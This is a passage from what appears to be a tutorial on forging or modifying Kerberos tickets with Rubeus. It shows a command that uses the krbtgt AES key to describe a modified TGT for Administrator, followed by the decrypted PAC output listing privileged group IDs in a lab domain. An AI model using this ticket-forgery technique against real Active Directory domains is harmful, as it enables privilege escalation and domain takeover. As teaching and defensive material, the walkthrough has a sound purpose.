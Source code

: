 The ticket is then decrypted, modified, and re-encrypted.  Describing the second ticket shows that it's now a TGT for Administrator.

> Rubeus sets the Groups field to 520,512,513,519,518 by default, but you can change this with the `/groups` parameter.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /servicekey:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /ticket:doIF7[...snip...]kNPTQ==

[*] Action: Describe Ticket

  ServiceName              :  krbtgt/CONTOSO.COM
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  Administrator (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  05/03/2025 09:36:08
  EndTime                  :  05/03/2025 19:35:40
  RenewTill                :  12/03/2025 09:35:40
  Flags                    :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  +3ZP/m5FaNuXrJH6yMFwhFLiTUwBygBhzlQ9qqxB3m8=
  Block One Plain Text     :  6382047530820471
  Decrypted PAC            :
    LogonInfo              :
      LogonTime            : 05/03/2025 09:35:29
      LogoffTime           :
      KickOffTime          :
      PasswordLastSet      : 24/01/2025 14:10:06
      PasswordCanChange    : 25/01/2025 14:10:06
      PasswordMustChange   :
      EffectiveName        : Administrator
      FullName             : Polly Childs
      LogonScript          :
      ProfilePath          :
      HomeDirectory        :
      HomeDirectoryDrive   :
      LogonCount           : 18
      BadPasswordCount     : 0
      UserId               : 500
      PrimaryGroupId       : 513
      GroupCount           : 5
      Groups               : 520,512,513,519,518
      UserFlags            : (32) EXTRA_SIDS
      UserSessionKey       : 0000000000000000
      LogonServer          : LON-DC-1
      LogonDomainName      : CONTOSO
      LogonDomainId        : S-1-5-21-3926355307-1661546229-813047887
      UserAccountControl   : (528) NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
      ExtraSIDCount        : 1
      ExtraSIDs            : S-1-18-1
      ResourceGroupCount   : 0
    ClientName             :
      Client Id            : 05/03/2025 09:35:40
      Client Name          : Administrator
    UpnDns                 :
      DNS Domain Name      : CONTOSO.COM
      UPN                  : Administrator@contoso.com
      Flags                : (2) EXTENDED
      SamName              : Administrator
      Sid                  : S-1-5-21-3926355307-1661546229-813047887-500
    Attributes             :
      AttributeLength      : 2
      AttributeFlags       : (1) PAC_WAS_REQUESTED
    Requestor              :
```